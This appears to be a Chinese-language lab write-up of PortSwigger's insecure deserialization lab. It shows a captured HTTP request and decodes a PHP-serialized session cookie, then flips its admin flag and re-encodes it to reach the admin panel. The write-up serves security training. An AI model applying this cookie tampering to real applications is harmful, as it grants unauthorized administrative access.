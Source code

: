 ```yaml
---
layout: post
title: "Modifying serialized objects"
description: ""
date: 2023-07-11
categories:
  - PortSwigger_Lab
  - PortSwigger_Insecure_Deserialization
author: ""
tags: ['PortSwigger_Lab', 'Insecure_Deserialization']
---
```






# Modifying serialized objects

```

This lab uses a serialization-based session mechanism and is vulnerable to privilege escalation as a result. To solve the lab, edit the serialized object in the session cookie to exploit this vulnerability and gain administrative privileges. Then, delete Carlos's account.

You can log in to your own account using the following credentials: `wiener:peter`


該實驗室使用基於序列化的會話機制，因此容易受到權限提升的影響。 要解決實驗室問題，請編輯會話 cookie 中的序列化對像以利用此漏洞並獲得管理權限。 然後，刪除 Carlos 的帳戶。

您可以使用以下憑據登錄到您自己的帳戶：`wiener:peter`



```



登入 -> update email  -> 抓包

```http

POST /my-account/change-email HTTP/1.1
Host: 0a3300f8036e55dec0bddf68002d005a.web-security-academy.net
Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjoxO30=
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: https://0a3300f8036e55dec0bddf68002d005a.web-security-academy.net
Referer: https://0a3300f8036e55dec0bddf68002d005a.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

email=333%40333
```





base64:
```
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d
```

實測 burpsuite proxy 模塊中直接反白，可以正確解碼。拿去decoder 模塊反而會解錯
原因在於最後面的 %3d 應該是url 編碼 = 不知道到底是怎樣(可以去掉)



或去online deocoder 也可以

```php
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}
```


反序列化一下 
線上 https://www.unserialize.com/  選項選 var_dump 函數
```
object(__PHP_Incomplete_Class)#3 (3) {
  ["__PHP_Incomplete_Class_Name"]=>
  string(4) "User"
  
  ["username"]=>
  string(6) "wiener"
  
  ["admin"]=>
  bool(false)
}
```



看起來像一個 使用者是否為 admin 的描述


admin 修改為 1
```php
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}
```


然後再base64 加密
```
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjoxO30=
```


實測burpsuite 改包發送無法成功。

直接在 firefox  改 session 值。


成功出現
Admin panel  選項

刪除 Carlos



